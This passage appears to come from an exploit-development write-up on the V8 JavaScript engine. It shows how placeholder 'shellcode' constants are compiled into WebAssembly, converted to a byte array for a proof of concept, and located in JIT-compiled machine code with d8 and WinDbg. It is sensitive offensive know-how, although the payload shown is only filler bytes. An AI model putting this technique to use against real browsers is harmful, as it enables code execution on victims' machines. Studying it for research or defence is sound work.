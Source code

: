 compile to wasm
```
wat2wasm -v shellcode.wat -o shellcode.was
```

Finally we can convert it to an intarray with python and add it to the poc:
```python
import sys

if len(sys.argv) != 2:
    print(f"[!] {sys.argv[0]} <file.wasm>")
    exit()

with open(sys.argv[1], "rb") as file:
    wasm = file.read()

print(str([x for x in wasm]))
```

```javascript
let wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 4, 1, 96, 0, 0, 3, 2, 1, 0, 7, 8, 1, 4, 109, 97, 105, 110, 0, 0, 10, 23, 1, 21, 0, 68, 65, 65, 65, 65, 65, 65, 65, 65, 68, 66, 66, 66, 66, 66, 66, 66, 66, 15, 11]);  
let wasmModule = new WebAssembly.Module(wasmCode);
let wasmInstance = new WebAssembly.Instance(wasmModule);
let main = wasmInstance.exports.main;
```

Running the above code in d8 we can check how the shellcode is structured:
```
d8> %DebugPrint(wasmInstance)
DebugPrint: 0000030D00199BCD: [WasmInstanceObject] in OldSpace
 ...
 - jump_table_start: 000000BC03141000
 ...
 - All own properties (excluding elements): {}
```

that sounds interesting. Lets set a breakpoint and call main();

```
0:001> bp 000000BC03141000
0:001> g
Breakpoint 0 hit
000000bc`03141000 e9bb070000      jmp     000000bc`031417c0
```

After single stepping for a while we find this:
```
000000bc`03141802 89e5                 mov     ebp, esp
000000bc`03141804 6a08                 push    8
000000bc`03141806 56                   push    rsi
000000bc`03141807 4881ec10000000       sub     rsp, 10h
000000bc`0314180e 493b65a0             cmp     rsp, qword ptr [r13-60h]
000000bc`03141812 0f8631000000         jbe     000000BC03141849
000000bc`03141818 49ba4141414141414141 mov     r10, 4141414141414141h
000000bc`03141822 66490f6ec2           movq    xmm0, r10
000000bc`03141827 49ba4242424242424242 mov     r10, 4242424242424242h
000000bc`03141831 66490f6eca           movq    xmm1, r10
000000bc`03141836 4c8b5677             mov     r10, qword ptr [rsi+77h]
000000bc`0314183a 41832a36             sub     dword ptr [r10], 36h
000000bc`0314183e 0f8810000000         js      000000BC03141854
000000bc`03141844 488be5               mov     rsp, rbp
000000bc`03141847 5d                   pop     rbp
```
